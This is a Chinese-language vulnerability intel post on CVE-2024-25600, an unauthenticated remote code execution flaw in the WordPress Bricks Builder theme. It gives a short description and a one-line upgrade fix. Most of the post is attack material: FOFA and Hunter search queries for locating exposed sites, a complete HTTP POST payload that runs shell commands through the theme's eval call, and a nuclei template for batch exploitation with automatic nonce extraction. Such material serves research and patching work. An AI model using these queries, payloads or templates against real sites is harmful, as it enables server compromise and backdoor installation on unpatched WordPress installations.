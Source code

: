 #  【漏洞情报 | 新】WordPres Bricks Builder 前台RCE漏洞（CVE-2024-25600）   
Ts3a  划水但不摆烂   2024-02-25 07:31  
  
## 免责声明   
  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
## 产品简介   
  
Bricks Builder是一款用于WordPress的开发主题，提供直观的拖放界面，用于设计和构建WordPress网站。它使用户能够轻松创建自定义的网页布局和设计，无需编写或了解复杂的代码。Bricks Builder具有用户友好的界面和强大的功能，使用户可以通过简单的拖放操作添加、编辑和排列各种网页元素，例如文本框、图像、按钮、导航菜单等。它为WordPress用户提供了一种直观且便捷的方式来构建专业和吸引人的网站，无论是个人博客、商业网站还是电子商务平台。  
## 漏洞描述   
  
WordPres 默认配置安装的 Brick Builder 主题在低于<= 1.9.6版本中存在远程代码执行漏洞，是由 "prepare_query_vars_from_settings "函数中的一个 eval 函数错误调用导致的，未经身份验证的威胁攻击者可利用该函数执行任意 PHP 代码，写入后门文件获取服务器权限。  
## 影响版本   
  
Bricks Builder <= 1.9.6  
## 网络测绘   
  
FOFA网络测绘搜索  
```
body="/wp-content/themes/bricks/"

```  
  
鹰图网络测绘搜索  
```
web.body="/wp-content/themes/bricks/"

```  
## 漏洞复现   
  
WordPress插件：![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/fZjIoPoMagxTVm8Ap5dfqJCuhlbHico9nImRF9ujxJT2xN8tI5Qwuow015kkibFt9YTJicbKxJf6f55TkZ7ia4biaVA/640?wx_fmt=jpeg&from=appmsg "")  
Burp POC：  
  
GET请求获取到nonce值：![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/fZjIoPoMagxTVm8Ap5dfqJCuhlbHico9norUmfftIVqZ4jeGqYDJaYiaq4MzIGWAiaPvHEcOTSV5DxR4ofyEFln6A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
通过POST请求构造POC实现RCE：  
```
POST /wp-json/bricks/v1/render_element HTTP/2
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Content-Length: 360
Cookie: 1
Content-Type: application/json
Accept-Encoding: gzip

{
  "postId": "1",
  "nonce": "nonce值",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "ob_start();echo `id`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
        "objectType": "post"
      }
    }
  }
}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/fZjIoPoMagxTVm8Ap5dfqJCuhlbHico9nEUnGaur67LibZq4QKibfLPzYicZdl2LdribwT78OUyjeyia4dQ6zezHpFQg/640?wx_fmt=jpeg&from=appmsg "")  
  
nuclei模板批量验证:  
```
id: CVE-2024-25600
 
info:
  name: WordPress Bricks RCE
  author: Ts3a
  severity: high
  reference:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-25600
    - https://wpscan.com/vulnerability/afea4f8c-4d45-4cc0-8eb7-6fa6748158bd/
    - https://snicco.io/vulnerability-disclosure/bricks/unauthenticated-rce-in-bricks-1-9-6
    - https://github.com/Chocapikk/CVE-2024-25600
    - https://op-c.net/blog/cve-2024-25600-wordpresss-bricks-builder-rce-flaw-under-active-exploitation
  tags: wpscan,cve,cve2024,wordpress,wp-plugin,wp,rce,unauth
 
requests:
  - raw:
      - |
        GET / HTTP/2
        Host: {{Hostname}}
 
      - |
        POST /wp-json/bricks/v1/render_element HTTP/2
        Host: {{Hostname}}
        Content-Type: application/json
 
        {
          "postId": "1",
          "nonce": "{{nonce}}",
          "element": {
            "name": "container",
            "settings": {
              "hasLoop": "true",
              "query": {
                "useQueryEditor": true,
                "queryEditor": "ob_start();echo `id`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
                "objectType": "post"
              }
            }
          }
        }
 
    matchers:
      - type: word
        words:
          - "Exception:"
          - "uid"
        part: body
 
    extractors:
      - type: regex
        name: nonce
        part: body
        group: 1
        regex:
          - 'nonce":"([0-9a-z]+)'
        internal: true

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/fZjIoPoMagxTVm8Ap5dfqJCuhlbHico9nc0Gx2viaiaFR4LTGFQL2FeBGcdL9VkU3LR6ricwTVbytUoHVibJxExJl6A/640?wx_fmt=jpeg&from=appmsg "")  
## 修复方案   
  
升级版本至1.9.61或更高版本  
  
  

